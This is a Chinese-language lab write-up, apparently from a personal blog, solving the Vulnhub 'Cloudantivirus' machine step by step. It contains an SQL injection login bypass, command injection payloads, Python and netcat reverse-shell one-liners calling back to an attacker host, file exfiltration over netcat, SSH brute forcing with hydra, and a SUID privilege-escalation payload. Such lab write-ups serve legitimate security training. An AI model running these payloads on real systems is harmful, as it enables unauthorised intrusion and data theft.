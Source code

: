﻿---
title: Chapter2_Easy_Cloudantivirus
categories:
- Network_Security
- Vulnhub
- Chapter2
tags:
- Network_Security
- Vulnhub
date: 2024-01-20 11:34:14
---

# Cloudantivirus 记录

## 1. 流程记录

### 1.1 扫描与发现

1. 主机发现，arp-scan 是偏向黑客工具，而 arping 是 Linux 发行版常见的工具。
    缺点：arping 不支持网段的扫描，因此需要结合 Linux 脚本循环命令使用。

    ```shell
    for i in $(seq 3 254); do sudo arping -c 2 192.168.0.$i; done
    # 扫描 192.168.0.3-254，-c 表示 count
    ```

2. 端口扫描：
    `sudo nmap -Pn -sV 192.168.0.104 -p 1-65535`
    ![image-20240112141214011](image-20240112141214011.png)

3. 目录爆破
    `dirsearch -u http://192.168.0.104:8080/`
    ![image-20240112142933497](image-20240112142933497.png)
    访问了之后，没啥可利用的页面

4. burp fuzz 一下特殊符号，看看异常：

    ![image-20240112142910986](image-20240112142910986.png)
    发现 `"` 异常厉害，着重关注一下。

### 1.2 打点

1. 发现 SQL 注入，万能密码开梭 `1" or 1=1 -- -`，进入系统：
    ![image-20240112144303351](image-20240112144303351.png)

2. 猜测是命令执行漏洞，逻辑是 `./扫描程序 文件名`，先用 `hello | id` 检测：
    ![image-20240112145302878](image-20240112145302878.png)
    验证成功，确实是。

### 1.3 反弹 Shell

1. 使用 Python 来反弹 shell，又或者看目标机器上是否有 NC：
    `hello | python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`
    用 NC：

    ```bash
    hello | which nc
    hello | /bin/nc 192.168.0.2 4444 -e /bin/sh # 低版本的 NC 没有 -e 参数
    hello | /bin/nc 192.168.0.2 4444 # 测试发现可行，但没有返回 Shell
    ```

2. NC 串联：
    `hello | /bin/nc 192.168.0.2 4444 | /bin/bash | /bin/nc 192.168.0.2 5555 # nc 串联，使用 | 将结果向后传递。`
    创建两个监听端口后，4444 端输入的内容会在靶机的 /bin/bash 下执行，（由于管道符 `|`)，结果会发送到 5555 端：
    ![image-20240112151651716](image-20240112151651716.png)

### 1.4 内部的信息收集与提权

1. 用下载他的 database.sql 文件，本机执行一下，看看有什么特殊信息：

    ```bash
    file database.sql # 发现是 sqlite3 的数据库文件
    nc -vlnp 6666 > db.sql
    nc 192.168.0.2 6666 < database.sql # 在 4444 中执行，将该文件的内容传输到连接通道中去。
    sqlite3 # kali 中打开数据库环境
    sqlite> .open db.sql # 打开数据库文件
    sqlite> .database # 查看当前加载的数据库
    sqlite> .dump # 查看脚本内容
    ```

2. 看样子都是密码，考虑这个密码是不是登录界面的密码，尝试了一下，确实是。同时猜测是否是其 ssh 的密码：
    ```bash
    cat /etc/passwd
    cat /etc/passwd | grep /bin/bash # 筛选能通过 ssh 登录的用户
    ```

    生成用户名和密码（来自数据库）字典，用 hydra 爆破。
    ```bash
    vim username.txt
    vim password.txt
    hydra -L username.txt -P password.txt ssh://192.168.0.104
    ```

    结果没用。

3. 放弃，从其他的角度寻找提权的方式，再进行信息收集，查看文件，结果在上级文件夹下，存在文件：
    ![image-20240112155614433](image-20240112155614433.png)
    update_cloudav 符合 suid 提权条件：

    > https://blog.csdn.net/lv8549510/article/details/85406215
    >
    > suid 作用：给一个用户继承二进制程序所有者拥有的权限，即当执行该文件时，用户暂时获得该二进制文件所有者的权限。

    如果该文件中执行反弹 shell，那么生成的 shell 就有了 root 权限。
    update_cloudav 文件应该是 update_cloudav.c 的二进制文件。

4. 查看更新文件的源码：
    ![image-20240112160113060](image-20240112160113060.png)
    大概分析一下：`command` 变量为命令执行的语句，该命令调用了 `freshclam`（Clamav) 的程序，其中要求添加一个参数。
    再次构建 payload（参数中执行命令)：
    `./update_cloudav "a | nc 192.168.0.2 6666 | /bin/bash | nc 192.168.0.2 7777"`

5. 至此，提权结束：
    ![image-20240112160749970](image-20240112160749970.png)

## 2. 知识点总结

1. arping 与 shell 脚本的混合使用
2. NC 串联
3. ssh 密码爆破思路
4. suid 提权
